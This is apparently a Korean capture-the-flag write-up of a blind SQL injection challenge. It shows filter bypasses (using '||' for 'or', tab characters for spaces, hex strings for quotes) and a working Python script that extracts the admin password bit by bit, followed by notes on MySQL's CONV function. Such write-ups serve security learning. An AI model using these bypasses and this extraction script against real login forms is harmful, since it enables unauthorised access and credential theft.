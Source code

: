 # 문제

- 블라인드 인젝션 문제이다.
- no, id, pw를 입력받는다
- 로그인 성공시 successful 페이지로 이동된다.
  - 실패시 failure 페이지로 이동된다.
- 몇가지 필터가 걸려있다.




#  풀이

- admin으로 로그인하면 될것같다.
- 필터링 되는것을 찾자
  - `or`
    - `||`로 우회
  - 띄어쓰기
    - `%09`로 우회
  - 싱글쿼터 - 시도 안해봤는데 막혀있을것 같다.
    - 헥스값으로 우회

- admin으로 로그인시 password를 입력하는 페이지가 나온다.


- 새롭게 알게된 efficient sql injection 방식으로 코딩했다.

  ```python
  while True:
      words = ''
      for idx in range(7):
          payload = '999||id\tlike\t'+'0x'+'admin'.encode('hex')
          payload += '&&substr(lpad(conv(hex(substr(pw,{0},1)),16,2),7,0),{1},1)=1'.format(len(flags)+1, idx+1)
  
          print 'payload: ' + payload
          params = {'no': payload, 'id': '123', 'pw': 'asdf'}
          res = requests.get(url+page, params = params, cookies=cookies)
          if res.text.find('Failure')!=-1:
              words += '0'
          else:
              words += '1'
  
      print 'founded words'
      print 'bin: ' + words
      print 'int: ' + str(int(words,2))
      ch = chr(int(words,2))
      print 'chr: ' + ch
      if ch == '\00':
          break
      else:
          flags += ch
  print '------------'
  print '------------'
  print '------------'
  print 'founded flags successfully...'
  print 'flags: ' + flags
  ```

  


# 알게된 것

### CONV() in sql

- 아무 진법의 수를 원하는 진법의 수로 바꿔준다.

- 실사용 예

  - `conv('a', 16, 2)`

    - `'a'`는 `ord`로 변환해주지 않는 이상 16진수인 61로 반환이 된다.
    - 따라서 2진수로 변환해주고 싶을 때 위처럼 `conv`를 이용해야 한다.

  - 같은 10진수 숫자를 10진수, 2진수로 변환

    ```mysql
    mysql> select conv('10101', 10, 10);
    +-----------------------+
    | conv('10101', 10, 10) |
    +-----------------------+
    | 10101                 |
    +-----------------------+
    1 row in set (0.00 sec)
    
    mysql> select conv('10101', 10, 2);
    +----------------------+
    | conv('10101', 10, 2) |
    +----------------------+
    | 10011101110101       |
    +----------------------+
    1 row in set (0.00 sec)
    ```

- `or` 키워드가 막혀있을 경우 `ord` 함수도 안된다..ㅠㅠ
  - 이때 conv를 사용하면 유용하다.
